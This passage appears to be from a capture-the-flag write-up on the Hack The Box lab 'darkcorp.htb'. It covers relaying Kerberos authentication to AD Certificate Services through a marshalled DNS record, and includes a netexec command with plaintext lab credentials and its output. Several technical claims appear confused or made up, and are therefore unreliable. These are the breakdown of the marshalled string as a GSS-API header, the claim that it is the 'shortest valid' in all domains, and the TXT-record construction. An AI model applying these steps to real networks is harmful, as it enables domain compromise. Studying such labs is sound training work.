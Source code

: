 **Target Endpoint Configuration**

```
Target: <https://dc-01.darkcorp.htb/certsrv/certfnsh.asp>
Method: POST (PKI Enrollment)
Purpose: Request **Machine Template** certificate for WEB-01$

```

**Relay Destination:** When `WEB-01$` resolves our malicious DNS entry, its Kerberos `AP_REQ` is **transparently forwarded** to ADCS, triggering **automatic certificate issuance** under the `Machine` template.

**Malicious DNS Record Construction**

To **force Kerberos authentication** (bypassing NTLM fallback), we crafted a **marshalled DNS TXT record** containing an **empty `CREDENTIAL_TARGET_INFORMATIONW`** structure - the **minimal valid GSS-API wrapper** for Kerberos delegation.

**Base Marshalled Payload**

```
1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA
```

**Breakdown:**

- `1UWhRC...` = **GSS-API Header** (Kerberos OID + flags)
- `AAAAAAAAAAAAAAAA...` = **Empty credential structure** (0-byte padding)
- `YBAAAA` = **Trailer** (length + null terminator)

**Length:** **44 bytes** - **shortest valid** across all Windows domains

### **Full DNS Record (Domain Controller Target)**

```
_dc-01.darkcorp.htb. IN TXT "DC-01.darkcorp.htb1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA"
```

**Construction Process:**

1. **Prepend Target:** `DC-01.darkcorp.htb` (FQDN of relay destination)
2. **Append Marshalled:** `1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA`
3. **Inject via DNSAdmins:** Creates **coercion trigger**

**Resulting Record:**

```bash
dig _dc-01.darkcorp.htb TXT
_dc-01.darkcorp.htb. 300 IN TXT "DC-01.darkcorp.htb1UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA"
```

while doing this dont forget!!!!!

```bash
nxc smb dc-01.darkcorp.htb -u 'victor.r' -p 'victor1gustavo@#' -M enum_ca
SMB         172.16.20.1     445    DC-01            [*] Windows Server 2022 Build 20348 x64 (name:DC-01) (domain:darkcorp.htb) (signing:True) (SMBv1:False)
SMB         172.16.20.1     445    DC-01            [+] darkcorp.htb\victor.r:victor1gustavo@# 
ENUM_CA     172.16.20.1     445    DC-01            Active Directory Certificate Services Found.
ENUM_CA     172.16.20.1     445    DC-01            http://172.16.20.1/certsrv/certfnsh.asp
```
